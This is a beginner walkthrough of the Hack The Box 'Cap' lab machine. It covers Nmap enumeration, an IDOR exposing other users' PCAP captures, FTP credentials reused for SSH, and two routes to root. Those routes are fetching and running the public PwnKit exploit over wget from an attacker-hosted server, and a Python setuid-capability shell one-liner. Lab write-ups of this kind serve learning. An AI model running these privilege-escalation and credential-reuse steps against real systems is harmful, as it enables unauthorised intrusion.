



# HTB Cap Walkthrough (Beginner Level)
HTB Cap walkthrough with clear steps on enumeration, PCAP analysis, SSH access, and privilege escalation.

## 🧪 Machine Information
**Machine Name:** Cap   
**Difficulty:** Easy  
**Operating System:** Linux  
**Machine Link:** https://app.hackthebox.com/machines/Cap


---

## 🛠 Tools Used

- **Nmap** – Network enumeration and service discovery  
- **Wireshark** – PCAP analysis and credential extraction  
- **GTFOBins** – Privilege escalation via Linux binary capabilities  

---

## 🔍 Enumeration

### 🔓 Open Ports

I started by scanning the target machine using Nmap to identify open ports and running services.

### 🔎 Nmap Scan (Full Output)

A full Nmap scan was performed to enumerate open ports, services, and OS details.

<details>
<summary>Click to expand full Nmap output</summary>

```bash
nmap -A 10.10.10.245

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-13 00:07 IST
Nmap scan report for 10.10.10.245
Host is up (0.92s latency).
Not shown: 997 closed tcp ports (reset)

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard

Device type: general purpose
Running: Linux 4.X|5.X
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OSs: Unix, Linux

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   748.86 ms 10.10.16.1
2   445.12 ms 10.10.10.245

Nmap done: 1 IP address (1 host up) scanned in 390.10 seconds
```
</details>
The scan revealed 3 TCP ports open.


## 🌐 Web Enumeration



After opening the HTTP service in the browser, I ran the Security Snapshot feature.



Once the scan completed, the application redirected me to a URL in the following format:

`/data/[id]`

By manually changing the ID value in the URL, I was able to access scans belonging to other users, indicating an IDOR (Insecure Direct Object Reference) vulnerability.

## 📦 PCAP Analysis
I downloaded PCAP files from different scan IDs and analyzed them using Wireshark.

After inspecting multiple PCAP files, I discovered that user ID 0 contained sensitive information.


The following FTP credentials were found in the PCAP traffic:
```bash
Username: nathan
Password: [REDACTED]
```

The credentials were visible in FTP traffic.

## 🔑 Initial Access (SSH)
I tested the discovered credentials on other services and confirmed that they also worked for SSH.

After logging in as the user nathan, I navigated to his home directory and retrieved the user flag.
```bash
ssh nathan@10.10.10.245
password : [REDACTED]
```
User Flag

After logging in, I navigated to the user’s home directory and retrieved the user flag.
```bash
nathan@cap:~$ls
user.txt
cat user.txt
```
## ⬆️ Privilege Escalation
There are two different methods to escalate privileges on this machine.

### Method 1: CVE-2021-4034 (PwnKit)
The system is vulnerable to CVE-2021-4034, a known local privilege escalation vulnerability.

**Steps followed:**

First i downloaded the exploit from GitHub / Exploit-DB
```bash
git clone https://github.com/berdav/CVE-2021-4034
cd CVE-2021-4034
```
Then i hosted it on the attacker machine using a Python HTTP server
```bash
python3 -m http.server 8000
```
And downloaded it on the target using wget
```bash
wget http://10.10.14.219:8000/cve-2021-4034.sh
```
Gave execution permission and executed the exploit
```bash
chmod +x cve-2021-4034.sh
./cve-2021-4034.sh
```
After running whoami, I confirmed that I had root access.


### Method 2: Binary Abuse (GTFOBins)
I searched for binaries with special Linux capabilities using the following command:



```bash
getcap -r / 2>/dev/null
```
The following binary was found with elevated capabilities:
```bash
/usr/bin/python3.8
```
Using GTFOBins, I executed the following command to escalate privileges:

```bash

python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
This resulted in root access.

🏁 Root Flag
After gaining root access, I navigated to the root user’s home directory and retrieved the root flag.
```bash
root@cap:~# cd /root
root@cap:/root# ls
root.txt  snap
root@cap:/root# cat root.txt 

```

### 🧠 Key Takeaways
Understood how IDOR vulnerabilities can expose sensitive data

Gained hands-on experience with PCAP analysis

Learned about credential reuse across services

Practiced both automated and manual privilege escalation


## Skills Learned:
Nmap, IDOR, PCAP Analysis, FTP, SSH, Privilege Escalation  


